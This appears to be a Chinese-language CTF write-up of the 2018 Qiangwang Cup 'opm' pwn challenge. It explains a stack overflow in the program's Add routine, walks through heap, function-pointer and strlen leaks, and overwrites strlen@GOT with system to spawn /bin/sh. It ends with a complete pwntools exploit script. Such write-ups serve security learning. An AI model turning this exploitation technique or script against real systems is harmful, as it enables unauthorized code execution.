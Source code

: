 # 强网杯 2018 opm
前言
程序运行
程序分析
漏洞分析
过程
### 前言
> &nbsp;&nbsp;&nbsp;&nbsp;这篇`WP`是强网杯过去了很久之后才出的, 参考的是[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)师傅的博客, 这位师傅是一位`CTF老赛手`, 最近复出.由于图片中不能`CTRL+F`出文字, 本文章尽量避免使用图片, 除非必要.

### 程序运行
*1. menu*
```
You were invited to beat one punch man!
(A)dd a new role
(S)how all roles
(E)xit

```
*2. Add*
```
A
Your name:
Bill
N punch?
128
<Bill> said he can kill the boss with 80 punches
```
*3. Show*
```
<Bill> said he can kill the boss with 80 punches
You were invited to beat one punch man!
```
*4. Exit*
```
E(退出)
```
### 程序分析
*0.结构体*
```c
struct node{
    char (*print)(struct node n) ; //函数指针
    char* name;
    int name_number;
    int punch;
};
```
*2. 分析*
> &nbsp;&nbsp;&nbsp;&nbsp;这道题没有用到什么高深的堆分配和释放的知识, 就一个词**溢出**. `IDA F5`之后, 发现`Add`过程存在一个溢出漏洞, `s`的下一个位置就是与`node`结构体相关的地址.

![result01](./01.png)
*3. 总体思路*
> &nbsp;&nbsp;&nbsp;&nbsp;泄露堆地址, 泄露`got`地址, 泄露`strlen`真实地址, 修改`got表`中`strlen`项内容为`system`, 发送`/bin/sh\x00`.

### 过程
*1. leak heap*
```python
add("A"*0x70, 9)
add("B"*0x80 + "\xf0", 9) #修改
'''
0x7ffff7fcd700:	0x0000000000000000	        0x0000000000000000
0x7ffff7fcd710:	0x000055c56a558cd0(正确地址)
修改之后
0x7ffff7fcd700:	0x4242424242424242	　　　　　0x4242424242424242
0x7ffff7fcd710:	0x000055c56a5500f0(一块可写区域)
...... 程序将一些信息写入此处
0x55c56a5500f0:	0x0000000000000000	0x000055c56a558d00 <--
0x55c56a550100:	0x0000000000000081	0x0000000000000009   |
'''                                                      |
add("C"*0x80, "D"*0x80 + "\xf0") #leak                   |
'''                                                      |
修改                                                      |
0x7ffff7fcd700:	0x4343434343434343	0x4343434343434343   |
0x7ffff7fcd710:	0x000055c56a558d00 --> 'C'*0x80造成       |
                                                         |
程序将新malloc的地址写入0x55c56a558d00                       |
0x55c56a558d00:	0x4242424242424242	0x000055c56a558dc0    |
0x55c56a558d10:	0x0000000000000080	0x4242424242424242    |
                                                          |
打印("D"*0x80 + "\xf0"), 此时的0x55c56a5500f0还是    --------

'''
```
**结论:** 泄露地址无非就是将地址放入可输入的部分, 然后执行输出函数.

*2. leak function*
```python
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
'''
"d" *0x18 + p64(heap + 0x90) 如下效果
0x7ffff7fcd690:	0x6464646464646464	0x6464646464646464
0x7ffff7fcd6a0:	0x6464646464646464	0x000055c56a558e50 ---
......                                                   |-----> 二者必须相同
0x7ffff7fcd700:	0x4444444444444444	0x4444444444444444   |
0x7ffff7fcd710:	0x000055c56a558e50	----------------------

'''
#'131425' + "F"*0x7a + p64(heap + 0xd0) 如下效果
```
![result02](./02.png)
**结论:** `131425`是为了防止`top chunk`被赋值为0.
*3. leak strlen address*
```python
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
```
*小结:* 理解了上一步`leak function`, 这一步原理同上.

*4. modify strlen@got*
```python
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
```
*小结:* 看似程序中没有写入功能, 实际上是存在写入的功能的. 就是`punch`大小的读入, 我们可以写入`system`真实地址的后四个字节,前几个字节都一样, 而且我们也只能写入四个字节.
![result03](./03.png)
### The Whole EXP
```python
from pwn import *

p = process("./opm")
elf = ELF("./opm")
libc = ELF("./opm")

context.log_level = 'debug'

def add(name, number):
    p.recvuntil("(E)xit\n")
    p.sendline("A")
    p.recvuntil("Your name:\n")
    p.sendline(name)
    p.recvuntil("N punch?\n")
    p.sendline(str(number))

def show():
    p.recvuntil("(E)xit\n")
    p.sendline("S")

def quit():
    p.recvuntil("(E)xit\n")
    p.sendline("E")

#part one: leak heap
add("A"*0x70, 9)
gdb.attach(p)
add("B"*0x80 + "\xf0", 9)
add("C"*0x80, "D"*0x80 + "\xf0")
heap = u64(p.recv(15)[9:].ljust(8, "\x00"))
log.info("heap: %s" % hex(heap))

#part two: leak function ptr
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
func_ptr = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("function_ptr: %s" % hex(func_ptr))

#part three: leak strlen real address
base = func_ptr - 0xb30
strlen_got = base + elf.got['strlen']
gdb.attach(p)
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
strlen = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("real strlen: %s" % hex(strlen))

#part four: modify strlen got
system_addr = strlen - 0x46390
log.info("system: %s" % hex(system_addr))
gdb.attach(p)
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
add("/bin/sh\x00", 8)
p.interactive()
```
### Related Link
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)
[文件下载]()
